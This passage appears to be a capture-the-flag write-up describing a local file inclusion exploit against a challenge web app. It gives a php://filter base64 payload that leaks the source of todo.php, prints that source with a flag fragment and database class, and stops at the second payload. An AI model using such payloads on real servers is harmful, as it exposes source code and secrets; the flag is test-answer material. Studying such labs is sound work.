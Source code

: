 6. On reading about this bug on internet I was able to find a <a href= "https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601">medium article</a>  which helped in exploiting this bug  

7. First payload which gave the source to "todo.php" and the first part of flag -```php://filter/convert.base64-encode/resource=todo.php``` this gives base64 encoded code we need to first decode it similar process happens for next payloads.

 Todo.php

 ```html
 <html>
<head>
    <title> TODOs </title>
</head>
<body>
<?php 
// Newer and more "LIGHTER" version of current application available at /dev  which does not use any SQL languages... - admin
// TODO: 
// 1). Change Reused Usernames and Passwords in /dev/login.php - john
// 2). Add proper input validations in search catalogue. - adam
// 3). Add feature to handle TODO Lists dynamically using db_connection.php - adam
echo "<p>No TODOs For You! TODOs for internal devs only!</p></br>";
// FLAG-1: iitbCTF{Ech0es_0fTh3
?>

<!-- I know it seems weird, but only who has access to codebase for this file can read TODOs, so I know it is pretty secure! -->
</body>
</html>
<?php
class DatabaseConnection {
    private $db;

    public function construct() {
        try {
            $dbFilePath = DIR . DIRECTORY_SEPARATOR . "data/EverythingIsHere.db";
            $this->db = new SQLite3($dbFilePath);
            if (!$this->db) {
                throw new Exception("Database connection error.");
            }
        } catch (Exception $e) {
            echo "Error: " . $e->getMessage();
        }
    }

    public function getConnection() {
        return $this->db;
    }

    public function closeConnection() {
        if ($this->db) {
            $this->db->close();
        }
    }

    public function destruct() {
        $this->closeConnection();
    }
}
?>
 
 ```
 8. Second payload 